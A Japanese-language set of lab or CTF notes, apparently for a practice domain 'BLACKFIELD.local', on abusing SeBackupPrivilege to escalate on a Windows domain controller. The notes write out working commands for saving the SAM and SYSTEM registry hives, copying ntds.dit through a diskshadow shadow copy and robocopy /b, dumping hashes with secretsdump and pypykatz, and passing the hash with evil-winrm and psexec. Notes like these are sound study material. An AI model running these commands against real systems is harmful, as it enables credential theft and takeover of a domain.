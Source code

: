 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`


c.f.)
- 複数のやり方が書いてある -> [Tha Hacker Recipies](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
- 実際にうまく動いた -> [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

# 一番手っ取り早い方法（adminのファイル読むだけなら）

[このスクリプト](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)を使う：


![change_permission](https://user-images.githubusercontent.com/85237728/149320232-492d553b-6219-4981-b06c-5a81d6d61cac.png)

（**BLACKFIELD.local**はドメイン名。**svc_backup**はカレントユーザ）


`whoami`でsystemとは出ないが、確かにroot.txtが読めた。すなわちsystem権限を奪取した。

# シェルをとる

```
reg save hklm\sam .\sam
reg save hklm\system .\sytem
```

これらをKaliに送ってハッシュダンプ：

```
impacket-secretsdump -sam sam -system system LOCAL

pypykatz registry --sam sam system
```

あとはpass the hash：

```
evil-winrm -i <target IP> -u <username> -H <NThash>

rlwrap impacket-psexec  <username>@<target IP> -hashes <LMhash:NThash>
```

# これもあり（参考：[Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)）

ntds.ditのコピーにおいて、普通の`copy`コマンドではpermission deniedになってしまう。そこで`robocopy`を使う。特に`/b`（または`/B`）フラグで**バックアップとして**コピーができる。つまりAdmin権限がなくても、backupユーザの権限があればpermission deniedにならない（[robocopyについての詳細](https://n-archives.net/software/robosync/articles/robocopy-specs-and-command/#i-3-1)）

*注）先に`mkdir C:\temp`として一時的なディレクトリを作っておく*

-> しかし`PS C:\temp> roboropy C:\Windoes\NTDS\ntds.dit . ntds.dit`というふうに直接コピーすると、現在アクティブなのでコピーできないと言われる。

-> そこで新しいドライブを作り、`diskshadow`でドライブ間のコピーを行うという方法をとる

（スクリプト）

```
┌──(kali㉿kali)-[~]
└─$ cat back_script.txt
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- スクリプトターゲット上にアップロード（遅かったらsmb使おう）：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> upload /home/kali/back_scrip.txt
```

- `diskshadow`コマンドにスクリプトを指定して実行：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> diskshadow /s back_script.txt
```

これで E:\ ドライブに C:\ ドライブの内容がコピーされた。E:\は現在アクティブじゃないから、`robocopy`が使える：

```
*Evil-WinRM* PS E:\> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
```

- ntds.ditの復号にはレジストリのキーが必要なのでそれをロードする：

```
*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
```

その後**ntds.dit**と**system**をKaliに転送する。

Kali上でcrack：

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```
